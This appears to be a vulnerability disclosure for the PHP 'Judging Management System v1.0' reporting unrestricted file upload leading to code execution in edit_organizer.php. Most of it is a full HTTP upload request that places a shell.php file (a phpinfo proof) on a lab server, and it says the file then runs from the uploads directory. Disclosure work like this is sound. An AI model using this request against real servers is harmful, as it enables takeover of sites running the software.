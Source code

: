 # Judging Management System v1.0 by oretnom23 has arbitrary code execution (RCE)


vendors: https://www.sourcecodester.com/php/15910/judging-management-system-using-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability url: ip/php-jms/edit_organizer.php

Loophole location: Judging Management System's "/php-jms/edit_organizer.php" file exists arbitrary file upload (RCE)

Request package for file upload：

​```sql
POST /php-jms/edit_organizer.php HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.88/php-jms/edit_organizer.php
Cookie: PHPSESSID=f6bhcgo222sk31fnm99nf9tjt1
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------227772473631172
Content-Length: 1760

-----------------------------227772473631172
Content-Disposition: form-data; name="fname"

admin
-----------------------------227772473631172
Content-Disposition: form-data; name="mname"

admin
-----------------------------227772473631172
Content-Disposition: form-data; name="lname"

admin
-----------------------------227772473631172
Content-Disposition: form-data; name="email"

admin@qq.com
-----------------------------227772473631172
Content-Disposition: form-data; name="pnum"

18888888888
-----------------------------227772473631172
Content-Disposition: form-data; name="cname"

111
-----------------------------227772473631172
Content-Disposition: form-data; name="caddress"

111
-----------------------------227772473631172
Content-Disposition: form-data; name="ctelephone"

11
-----------------------------227772473631172
Content-Disposition: form-data; name="cemail"

11
-----------------------------227772473631172
Content-Disposition: form-data; name="cwebsite"

11
-----------------------------227772473631172
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
-----------------------------227772473631172
Content-Disposition: form-data; name="username"

admin
-----------------------------227772473631172
Content-Disposition: form-data; name="passwordx"

admin
-----------------------------227772473631172
Content-Disposition: form-data; name="password2x"

admin
-----------------------------227772473631172
Content-Disposition: form-data; name="password"

admin
-----------------------------227772473631172
Content-Disposition: form-data; name="update"


-----------------------------227772473631172--
​```

The files will be uploaded to this directory \php-jms\uploads
![image](https://user-images.githubusercontent.com/54017627/206372647-156724a1-ba02-4de5-99ca-5bdc77ae89fb.png)

We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/206372790-7ac93294-9a0a-4677-b9ab-e595d102267b.png)
